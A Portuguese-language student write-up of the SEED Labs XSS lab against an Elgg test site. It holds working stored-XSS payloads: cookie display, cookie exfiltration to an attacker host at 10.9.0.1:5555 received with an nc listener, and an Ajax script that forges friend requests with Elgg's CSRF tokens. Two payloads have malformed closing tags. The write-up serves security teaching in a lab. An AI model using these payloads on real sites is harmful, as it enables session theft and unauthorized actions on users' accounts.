




# SEED LABS - XSS

## Task 1: Posting a malicious message to display an alert window

Para realisar esta task escrevemos um pequeno script 
```html 
<script>alert("XSS")<script>
``` 
e colocamo-lo na secção `About me` do perfil da Alice usando o editor de html. Outro campo do perfil onde é esperado input do utilizador, por exemplo `Brief description`, seria válido, porque não é apenas no campo "About me" que o input do utilizador não é devidamente tratado. Após isto sempre que alguém entra no pefil da Alice o código é executado e uma janela de alerta é exibida.  



## Task 2: Posting a malicious message to display cookies

Para este passo basta alterar o script que está no perfil da Alice para

```html
<script>alert(document.cookie)<script>
```

e da tal como na task 1, sempre que alguém entrar no perfil da Alice o código é executado e uma janela de alerta é exibida com as cookies do próprio utilizador.  



## Task 3: Stealing coockies from the user's machine

Mais uma vez para esta tarefa vamos alterar o script que está no perfil da Alice para

```html
<script>document.write('');
 </script>
```

Quando o javascript insere esta imagem o browser vai tentar carregar a imagem que está no `URL` da `src` o que resulta num pedido HTTP GET à maquina do ataquante. O script acima envia as coockies para a porta `5555` com IP `10.9.0.1`. Para receber as cookies precisamos de fazer o comando

```bash
nc -lknv 5555
```

este cria um servidor TCP que fica a ouvir o port `5555`.

`-l`: faz com que o servidor fique à espera de uma conecção em vez de iniciar uma

`-k`: significa que quando a conecção acaba fica a espera de outra

`-nv`: faz com que `nc` de um output seja mais verboso

Quando alguém entra no perfil da Alice recebemos isto no terminal:



É possível verificar que as cookies recebidas na máquina do atacante coincidem com as que foram impressas na task 2.

## Task 4: Becoming the victim's friend

O objetivo desta task é fazermos com que um user que simplesmente entre no perfil do Samy fique a ser seu amigo. Para isso temos que primeiro perceber o que é enviado para o servidor - conseguimos isso vendo como é feito o pedido `HTTP` quando adicionamos um amigo


Como podemos ver na imagem acima verifica-se que o URL é http://www.seed-server.com/action/friends/add e são enviados 3 parâmetros: o `id` do utilizador que estamos a adicionar como amigo, uma variável chamada `__elgg_ts` e uma variável chamada `__ellg_token`.

Analisando a template fornecida no lab, já temos as duas últimas variáveis, portanto só precisamos de encontrar o `id do samy`

```html
<script type="text/javascript">
 window.onload = function () {
 var Ajax=null;
 var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
 var token="&__elgg_token="+elgg.security.token.__elgg_token; 
//Construct the HTTP request to add Samy as a friend.
 var sendurl=...; //FILL IN
 //Create and send Ajax request to add friend
 Ajax=new XMLHttpRequest();
 Ajax.open("GET", sendurl, true);
 Ajax.send();
 }
 </script>
```

Para isso basta adicionarmos o Samy como amigo e ver que id aparece no pedido `HTTP`


Assim descobrimos que o `id é 59` e podemos construir o url necessário para o ataque e o script final fica

```html
<script type="text/javascript">
 window.onload = function () {
 var Ajax=null;
 var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
 var token="&__elgg_token="+elgg.security.token.__elgg_token; 
//Construct the HTTP request to add Samy as a friend.
 var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token; //FILL IN
 //Create and send Ajax request to add friend
 Ajax=new XMLHttpRequest();
 Ajax.open("GET", sendurl, true);
 Ajax.send();
 }
 </script>
```

Após estes passos, basta colocar este script no "About me" do Samy da mesma forma que fizemos para a Alice.

Agora sempre que alguem entrar no perfil do Samy ficará automaticamente seu amigo.

Para testar usamos a conta do Charlie


e até o Samy fica a ser amigo com ele proprio o que inicialmente era impossível.



### Questão 1 da task4

A primeira linha é uma timestamp (serve para garantir que o pedido é feito num tempo válido) e a segunda é um token de segurança (token gerado por sessão ou pedido serve para verificar que o pedido vem de uma fonte fidedigna) e são necessárias para evitar ataques CSRF.

### Questão 2 da task4

Se apenas estivesse disponível o Editor mode `continuava a ser possível` lançar um ataque bem sucedido, embora fosse mais difícil - "It should be noted that even if Elgg does not provide a plaintext editor for this field, attacks can still be launched, although they will be slightly more difficult. For example, an attacker can use a browser extension to remove those formatting data from HTTP requests, or simply sends out requests using a customized client, instead of using browsers."

Fonte: SEED book (11.2.2 Use XSS Attacks to Befriend with Others)

### Questão 2 do moodle

Este ataque pode enquadrar-se na categoria `stored` (persistent), pois o site não faz uma verificação suficiente dos dados que recebe dos utilizadores (nos campos dos seus perfis) e no casos dos dados serem malignos podem ser usados várias vezes após estarem armazenados.

"In the persistent XSS attacks, attackers can directly send their data to a target website, which stores the data in a persistent storage. If the website later sends the stored data to other users, it creates a channel between the attackers and other users. Such channels are quite common in web applications. For example, user profile in social networks is such a channel, because the data in a profile are set by one user and viewable by others."

Fonte: SEED book (11.1.2 Persistent XSS Attack)


